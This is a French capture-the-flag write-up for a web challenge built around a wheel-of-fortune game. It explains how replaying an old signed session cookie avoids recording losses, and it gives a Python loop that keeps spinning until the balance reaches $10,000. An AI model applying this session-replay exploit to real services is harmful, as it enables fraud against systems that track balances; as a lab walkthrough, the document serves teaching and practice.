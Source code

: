 # Challenge

Remerciements à 89P23 / Ratou23

## Enoncé 

```
Description (français)

Vous aimez les jeux de hasard? Eh bien, c'est votre jour de chance!
Soyez raisonnables...
Description (english)

Do you like games of chance? Well you're in luck!
Be reasonable...
Connexion
https://spinthewheel.c.unitedctf.ca


```

## Résolution 

En arrivant sur la page web, on découvre une magnifique ... roue de la fortune : 

![alt text](image.png)

En trifouillant le site, on remarque un cookie JWT : 

![alt text](image-1.png)

Malheureusement, il est signé, et l'on ne semble pas disposer de méthode pour déterminer le signature. 

Cependant, il nous est possible de tirer la roue avec un ancien cookie. Par conséquent, on peut faire un programme qui lance la roue jusqu'à obtenir 10,000$ en conservant notre ancien cookie si l'on perd. 


Voici le code qui le fait : 

```
import requests

# URL de la requête
url = 'https://spinthewheel.c.unitedctf.ca/spin'

# Les données à envoyer dans la requête POST
data = {}

# Le cookie de session
cookies = {
    'session': 'eyJiYWxhbmNlIjo2MzU2LCJ1aWQiOnsiIHUiOiIzZGVlMGI4M2IyNDE0MTg5YjZkMzhmNjgwMmUwZDlhYSJ9fQ.ZuvYFA.4giOZoqkOIjZDncLunQKCTxKjds'
}

# Envoi de la requête POST avec le cookie
response = requests.post(url, data=data, cookies=cookies)

current_amount = response.json().get('new_balance')
current_cookie = cookies

while current_amount < 10000:
    response = requests.post(url, data=data, cookies=current_cookie)
    amount = response.json().get('new_balance')
    cookie = response.cookies.get('session')
    if amount != 0:
        current_cookie = {'session': cookie}
        current_amount = amount
    print(current_amount)
    print(current_cookie)

```

On obtient alors : 

![alt text](image-2.png)